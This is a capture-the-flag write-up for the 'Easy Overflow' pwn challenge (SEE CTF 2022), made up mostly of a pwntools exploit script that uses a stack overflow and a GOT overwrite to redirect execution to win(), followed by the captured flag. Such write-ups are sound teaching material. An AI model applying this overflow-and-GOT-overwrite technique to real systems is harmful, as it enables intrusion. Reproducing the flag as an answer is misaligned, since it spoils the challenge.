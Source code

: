 ```yaml
---
name: Easy Overflow (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for Easy Overflow (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Easy Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=2362 "Social Engineering Experts CTF 2022: Easy Overflow")

## Description

> I did a check on my return address. Now you shouldn't be able to control my RIP.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4011ca
break *0x401247
continue
'''.format(**locals())

# Binary filename
exe = './easy_overflow'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = flat([
    b'A' * 32,  # Pad to stack
    # Overwrite RBP with address of got.gets()
    elf.got.gets,  # This will become got.puts
    0x401212  # Address required to meet RIP check
])

# Send the payload
io.sendlineafter(b'I will let you  overflow me.', payload)

# Write the address of win() into puts()
io.sendlineafter(b'I will give you one more chance.', flat(elf.functions.win))

# Got Flag?
io.interactive()
```
{% endcode %}

Flag: `SEE{R1P_15_K1NG_RBP_15_QU33N_31cfc2f963517cd7e1b33b84a0e6bea2}`
